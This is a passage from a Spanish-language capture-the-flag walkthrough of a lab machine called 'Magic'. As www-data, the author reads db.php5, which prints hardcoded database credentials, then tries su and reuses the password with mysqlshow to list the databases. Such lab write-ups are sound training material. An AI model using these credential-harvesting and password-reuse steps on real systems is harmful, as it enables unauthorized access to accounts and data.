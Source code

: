 Si volvemos al directorio `Magic`, encontraremos un archivo `db.php5` el cual contiene unas credenciales.

```bash
www-data@ubuntu:/var/www/Magic$ ls
assets	db.php5  images  index.php  login.php  logout.php  upload.php
www-data@ubuntu:/var/www/Magic$ cat db.php5 
<?php
class Database
{
    private static $dbName = 'Magic' ;
    private static $dbHost = 'localhost' ;
    private static $dbUsername = 'theseus';
    private static $dbUserPassword = 'iamkingtheseus';

    private static $cont  = null;

    public function __construct() {
        die('Init function is not allowed');
    }

    public static function connect()
    {
        // One connection through whole application
        if ( null == self::$cont )
        {
            try
            {
                self::$cont =  new PDO( "mysql:host=".self::$dbHost.";"."dbname=".self::$dbName, self::$dbUsername, self::$dbUserPassword);
            }
            catch(PDOException $e)
            {
                die($e->getMessage());
            }
        }
        return self::$cont;
    }

    public static function disconnect()
    {
        self::$cont = null;
    }
}
```

Si tratamos de usar las credenciales para conectarnos como `theseus`, vemos que no corresponde, pero podemos tratar de conectarnos a la base de datos. Y al no existir `mysql`, podemos usar `mysqlshow`

```bash
www-data@ubuntu:/var/www/Magic$ su theseus
Password: 
su: Authentication failure
www-data@ubuntu:/var/www/Magic$ mysqlshow -utheseus -piamkingtheseus
mysqlshow: [Warning] Using a password on the command line interface can be insecure.
+--------------------+
|     Databases      |
+--------------------+
| information_schema |
| Magic              |
+--------------------+
```
